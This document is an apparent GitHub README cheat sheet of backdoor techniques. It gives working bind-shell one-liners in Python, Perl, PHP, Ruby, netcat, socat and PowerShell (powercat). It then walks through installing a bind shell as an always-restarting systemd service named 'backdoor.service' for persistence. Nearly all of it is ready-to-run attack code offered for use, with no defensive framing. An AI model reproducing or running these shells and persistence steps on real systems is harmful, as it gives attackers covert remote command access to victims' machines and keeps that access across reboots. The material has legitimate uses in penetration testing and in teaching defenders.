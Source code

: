 # Backdoors



## Oneliner Bind-shell(s)
### Python
```bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.bind(("0.0.0.0", 5555)); s.listen(1); conn,addr=s.accept(); os.dup2(conn.fileno(),0); os.dup2(conn.fileno(),1); os.dup2(conn.fileno(),2); p=subprocess.call(["/bin/bash", "-i"]);'

```

### Perl
```bash
perl -e 'use Socket;$p=51337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));\
bind(S,sockaddr_in($p, INADDR_ANY));listen(S,SOMAXCONN);for(;$p=accept(C,S);\
close C){open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/bin/bash -i");};'
```

### PHP
```bash
php -r '$s=socket_create(AF_INET,SOCK_STREAM,SOL_TCP);socket_bind($s,"0.0.0.0",51337);\
socket_listen($s,1);$cl=socket_accept($s);while(1){if(!socket_write($cl,"$ ",2))exit;\
$in=socket_read($cl,100);$cmd=popen("$in","r");while(!feof($cmd)){$m=fgetc($cmd);\
    socket_write($cl,$m,strlen($m));}}'
```

### Ruby
```bash
ruby -rsocket -e 'f=TCPServer.new(51337);s=f.accept;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",s,s,s)'
```

### Netcat Traditional
```bash
nc -nlvp 51337 -e /bin/bash
```

### Netcat OpenBsd
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 51337 >/tmp/f
```

### Socat
```bash
user@attacker$ socat FILE:`tty`,raw,echo=0 TCP:target.com:12345 
user@victim$ socat TCP-LISTEN:12345,reuseaddr,fork EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

### Powershell
```bash
https://github.com/besimorhino/powercat

# Victim (listen)
. .\powercat.ps1
powercat -l -p 7002 -ep

# Connect from attacker
. .\powercat.ps1
powercat -c 127.0.0.1 -p 7002
```
<br><br>

# Persistent Backdoor Setup

---

## **Step 1: Move the Script to a Persistent Location**
Move your Python bind shell script to `/usr/local/bin/` and make it executable:

```bash
sudo mv your_script.py /usr/local/bin/shell.py
sudo chmod +x /usr/local/bin/shell.py
```

## **Step 2: Create a Systemd Service File**

```bash
sudo nano /etc/systemd/system/backdoor.service
```

## **Step 3: Add the following content:**

```bash
[Unit]
Description=Persistent backdoor
After=network.target

[Service]
Type=simple
ExecStart=/usr/bin/python3 /usr/local/bin/shell.py
Restart=always

[Install]
WantedBy=multi-user.target

```

## **Step 4: Enable and Start the Service**

```bash
sudo systemctl enable backdoor.service
sudo systemctl start backdoor.service

```

## **Step 5: Verify Service Status**

```bash
sudo systemctl status backdoor.service
```

## **Step 6: Stop and Remove the Service (If Needed)**

```bash
sudo systemctl stop backdoor.service
sudo systemctl disable backdoor.service
sudo rm /etc/systemd/system/backdoor.service
sudo systemctl daemon-reload
```

# Author
- **GitHub**: [@nahid0x1](https://github.com/nahid0x1)
- **Twitter**: [@nahid0x1](https://x.com/nahid0x1)
- **Linkedin**: [@nahid0x1](https://www.linkedin.com/in/nahid0x1)
- **Email**: [nahid0x1.official@gmail.com](mailto:nahid0x1.official@gmail.com)
